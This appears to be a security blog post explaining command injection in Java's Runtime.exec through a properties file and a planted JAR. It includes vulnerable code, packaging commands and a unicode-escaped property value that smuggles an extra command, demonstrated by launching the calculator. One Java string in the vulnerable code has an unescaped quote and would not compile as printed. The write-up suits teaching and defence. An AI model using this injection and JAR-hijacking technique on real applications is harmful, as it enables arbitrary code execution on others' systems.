 ```yaml
---
layout: single
title: Command Injection in Runtime.exec via Java Properties and JAR Hijacking
date: 2023-12-11
classes: wide
tags:
  - java properties
  - command injection
  - jar hijacking
---
```


> In Java, Runtime.exec is often used to invoke a new process, but it does not invoke a new command shell, which means that chaining or piping multiple commands together does not usually work. Command injection is still possible if the process spawned with Runtime.exec is a command shell like command.com, cmd.exe, or /bin/sh.


The vulnerable code:

```
Runtime runtime = Runtime.getRuntime();
Properties properties = new Properties();

try (FileInputStream stream = new FileInputStream("app.properties")) {
    properties.load(stream);
}

String options = properties.getProperty("options", "");
String command = String.format("\"C:/Program Files/Java/jre1.8.0_111/bin/javaw\" -cp ".;./dependencies/*\" %s com.example.main.Example", new Object[] { options });

Process process = runtime.exec(command);
```

The configuration file.

```
options=
```

Save the following java code into a file named `Calc.java`. It is important to add the package at the beginning of the file.

```
package command.injection;

import java.io.IOException;

public class Calc {

    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

Compile the source code. The `-d .` makes the compiler create the defined directory structure.

```
javac -d . Calc.java
```

When packaging the `.jar` file, you need to instruct the jar routine on how to pack it. Here I use the option set `cvfeP`. This is to keep the package structure (option `P`), specify the entry point so that the manifest file contains meaningful information (option `e`). Option `f` lets you specify the file name, option `c` creates an archive and option `v` sets the output to verbose. The important things to note here are `P` and `e`.

Next, follow the command with the name of the jar (test.jar) and the entry point.

Lastly, use `-C . <packagename>/` to get the class files from the specified folder, preserving the folder structure.

```
jar cvfeP calc.jar .Calc -C . command/injection/
```

Open the calc.jar file in a zip program. It should have the following structure:

```
command/
├─ injection/
│  ├─ Calc.class
META-INF/
├─ MANIFEST.MF
```

The `MANIFEST.MF` should contain the following:

```
Manifest-Version: 1.0
Created-By: <JDK Version> (Oracle Corporation)
Main-Class: command.injection.Calc
```

If you edit your manifest by hand, be sure to keep the newline at the end otherwise java doesn't recognize it.

Place `calc.jar` into the `/dependencies` directory of the target application.

Add the following property to the `application.properties` file of the application:

```
options=command.injection.Calc\u0020\u0026\u003A\u003A\u0020
```

Run the target application and observe that the calculator application will open instead of the intended source.

Below is the value that had entered the `exec` function.

```
"C:/Program Files/Java/jre1.8.0_111/bin/javaw" -cp ".;./dependencies/*\" command.injection.Calc &:: com.example.main.Example
```

## References

- [Command injection in Java](https://wiki.owasp.org/index.php/Command_injection_in_Java)
